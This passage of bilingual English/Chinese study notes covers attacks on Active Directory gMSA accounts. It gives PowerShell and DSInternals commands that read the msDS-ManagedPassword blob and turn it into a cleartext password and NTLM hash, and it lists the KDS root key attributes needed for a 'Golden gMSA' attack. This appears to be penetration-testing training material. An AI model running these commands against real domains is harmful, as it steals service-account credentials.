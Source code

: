 属性```msDS-GroupMSAMembership```(PrincipalsAllowedToRetrieveManagedPassword) 列出了可以读取 password blob。

使用ADModule
```
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword
```

### msDS-ManagedPassword

- The attribute 'msDS-ManagedPassword' stores the password blob in binary form of MSDS-MANAGEDPASSWORD_BLOB. The attribute 'msDS-ManagedPassword' stores the password blob in binary form of MSDS-MANAGEDPASSWORD_BLOB.（ 属性```msDS-ManagedPassword```以二进制的形式从``` MSDS-MANAGEDPASSWORD_BLOB```存储 password blob）

- Once we have compromised a principal that can read the blob. Use ADModule to read and DSInternals to compute NTLM hash（一旦我们拿到可以读取这个blob的主体，使用ADModule读取DSInternals来计算NTLM）

```
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'

Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1

$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob

ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword
```

-  The 'CurrentPassword' attribute in the $decodedpwd contains the clear-text password but cannot be typed!($decodedpwd 中的“CurrentPassword”属性包含明文密码)


# Golden gMSA

- gMSA password is calculated by leveraging the secret stored in KDS root key object.（gMSA 密码是通过利用存储在 KDS KDS root key object中的secret来计算的。）

- We need following attributes of the KDS root key to compute the Group Key Envelope (GKE)（我们需要 KDS root key 的以下属性来计算Group Key Envelope (GKE)）

```
– cn
– msKds-SecretAgreementParam
– msKds-RootKeyData
– msKds-KDFParam
– msKds-KDFAlgorithmID
– msKds-CreateTime
– msKds-UseStartTime
– msKds-Version
– msKds-DomainID
– msKds-PrivateKeyLength
– msKds-PublicKeyLength
– msKds-SecretAgreementAlgorithmID
```
